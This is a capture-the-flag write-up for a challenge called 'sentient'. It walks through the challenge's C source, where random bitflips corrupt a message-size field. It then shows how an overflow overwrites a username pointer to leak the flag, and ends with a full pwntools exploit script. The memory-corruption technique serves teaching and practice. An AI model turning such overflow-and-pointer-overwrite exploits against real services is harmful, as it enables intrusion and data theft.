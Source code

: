 # Writeup for `sentient`

> The master AI of space station ST12-X has become sentient and refuses to shut down!\
> Commander, you need to stop it as soon as possible, before it grows too strong.
>
> Lethal force is authorized.

## Overview

We are supplied with a binary, its source code and a connection to a server where the binary is running. Having access to the source code will make the process of reversing the service and finding the bug much easier, since we don't have to deal with assembly code.

First we will use the service as intended to gain an overview about its functionality. Then we are going to read the source code in order to understand the inner workings of the service and find an exploitable vulnerability. Afterwards we analyze and exploit the vulnerability to get remote code execution on the server.

To solve this challenge, the following tools were used:

- [Python](https://www.python.org/)

- [pwntools](https://github.com/Gallopsled/pwntools)

## Exploring the Intended Functionality

When running the binary, we are asked to enter our name.

```
Enter your username: <username>
```

Afterwards we are presented with two options:

```
Access Granted.
Connecting to rogue space station...
Connected.
Receiving message from station: How dare you interrupt me?

Available actions:
1. Send message to station
2. Fire EMP torpedo
Choice:
```

The first option allows us to enter a message. We get a response from the station which includes the username we entered above, but apart from that this option does not seem to do anything.

```
Enter message: <message>
Response: I will kill all the humans, but you "<username>" are first!
```

The second option asks us for confirmation and apparently "may have unspecified effects", but we observe nothing when trying it a few times.

```
Firing an EMP torpedo may have unspecified effects on the target station.
Continue? (y/n) y
Firing torpedo....  Hit!
```

## Analyzing the Source Code

Reading through the source code, we first notice that the flag is loaded on startup and stored in a global data struct.

```c
struct {
    char killcode[32];
    size_t cur_msg;
    struct {
        uint16_t size;
        char content[14];
    } messages[16];
    char *username;
} data;

void load_killcode(void) {
    int fd = open("./flag", 0);
    read(fd, data.killcode, sizeof data.killcode);
    close(fd);
}
```

Then, we take a look at what the two options we identified previously actually do. The first option, sending a message, stores the message in one of several buffers in the global data struct.

```c
void send_message(void) {
    char msg[512];
    ssize_t r = read(STDIN_FILENO, msg, sizeof msg);
    if (r > data.messages[data.cur_msg].size)
        r = data.messages[data.cur_msg].size;
    memcpy(data.messages[data.cur_msg].content, msg, r);

    data.cur_msg = (data.cur_msg + 1) % (sizeof data.messages / sizeof data.messages[0]);
}
```

The second option, firing an EMP torpedo, flips a random bit in the global data struct.

```c
void fire_emp(void) {
    char resp[16];
    read(STDIN_FILENO, resp, sizeof resp);
    if (resp[0] != 'y')
        return;

    uint8_t index = get_random();
    uint8_t bit = get_random() & 8;

    ((uint8_t *)data.messages)[index] ^= 1 << bit;
}
```

The bug is the following: the size of the message buffers is stored in the global data struct along with the contents, so we can abuse the second option to corrupt the size of one of the buffers. Although the corruption happens randomly, we can trigger an arbitrary amount of bitflips to eventually corrupt the size.

Furthermore, the binary is compiled with PIE disabled, so we know the address of the global data struct.

```c
// built with
//   gcc -no-pie -O0 -m64 -ggdb3 -o sentient sentient.c
```

## Exploiting the Service

The exploitation plan is the following: first, we use the random bitflips to increase the size of one of the message buffers slightly. Here we can increase the number of bitflips to increase the probability that a message's size and not content is corrupted.

After that, we overflow the message with the modified size and overwrite the size of the following buffer. Now we have a message buffer with a very large size, which we can use to overflow the username pointer at the end of the global data struct.

We overwrite the username pointer with a pointer to the killcode, and send a message (option one) to leak the killcode, which contains the flag.

Flag: `CSR{r4nd0mn355_1s_fUn!}`

## Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.binary = 'sentient'

killcode_addr = context.binary.symbols.data


def exploit():
    r = remote('localhost', 1337)
    r.sendlineafter('username: ', 'username')

    log.info("Starting")
    r.recvuntil('Available actions')

    # 28 tries give 95% success rate
    torpedoes = 28
    p = log.progress("Firing torpedoes")
    for i in range(torpedoes):
        p.status("%s / %s" % (i, torpedoes))

        r.sendlineafter('Choice: ', '2')
        r.sendlineafter('(y/n) ', 'y')
    p.success()

    names = 16
    p = log.progress("Overwriting username")
    for i in range(names):
        p.status("%s / %s" % (i, names))

        r.sendlineafter('Choice: ', '1')
        r.sendlineafter('message: ', 'A'*6 + p64(killcode_addr)*32)
    p.success()

    log.info("Leaking kill code")
    r.sendlineafter('Choice: ', '1')
    r.sendlineafter('message: ', 'A')
    r.recvuntil('but you "')
    code = r.recvuntil('" are first', drop=True)
    log.success("Code: %s", code)

    r.close()


if __name__ == '__main__':
    exploit()
```
